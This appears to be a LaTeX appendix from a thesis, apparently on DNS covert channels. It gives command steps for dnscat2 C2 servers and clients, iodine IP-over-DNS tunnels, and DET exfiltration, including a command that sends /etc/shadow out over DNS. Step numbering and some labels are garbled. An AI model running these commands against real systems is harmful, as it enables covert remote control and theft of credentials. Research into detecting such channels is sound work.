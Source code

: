 \documentclass [11pt, proquest] {uwthesis}[2020/02/24]
\begin{document}
\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2 with DNS port obfuscation layered random UDP port},label={lst:sliver-steps}]
# 1. Start Dnscat2 C2 server on attacker node with port obfuscation, DNS protocol itself tunnelled over random UDP port with internally tunnelling any protocol payload
sudo ruby dnscat2.rb --dns 'host=<attacker_node>,port=<dns_overlay_udp_port>,domain=<c2_domain>'
# 2. Connect to dnscat c2 server from compromised node in data plan
./dnscat --dns server=<attacker_node>=<dns_overlay_udp_port>,domain=dnscat.strive.io --secret=<c2_session_secret>
# 6 carry all the c2 attacks once compromised node is connected to C2 server.
\end{lstlisting}


\subsubsection{Iodine}
Iodine documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/yarrick/iodine}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use Iodine for Dns tunnelling using kernel encapsulation ppp TUN/TAP links},label={lst:iodine-steps}]
# 1. Start iodine tunneling server 
sudo iodined -f -P <password> <TUN/TAP_overlay_CIDR> <tunnel_domain>
# 2. Verify the required TUN/TAP pointtopoint netdev link created, defaults to dns0 
ip addr show dev dns0 
# 3. On compromised node in data plane start the iodine client 
sudo iodine -P <password> -f  -r <tunnel_server> <tunnel_domain>
# 4 Verify the required TUN/TAP pointtopoint netdev link created in CIDR range default to <TUN/TAP_overlay_CIDR>/24
ip addr show dev dns0
# Tunnel any protocol payload through the compromised node encpasulated traffic passed through PPP TUN/TAP links on both systems.
\end{lstlisting}

\subsubsection{DET}
DET documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/sensepost/DET}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use DET for raw DNS exfiltration},label={lst:det-steps}]
# 1. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
# 2. Start the DET server
sudo python det.py -L -c ./config.json -p dns 
# 3. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
python det.py -c ./config.json -f /etc/shadow
3 4. restart the script and continue to exfiltrate files via raw DNS exfiltration. 
\end{lstlisting}
\end{document}
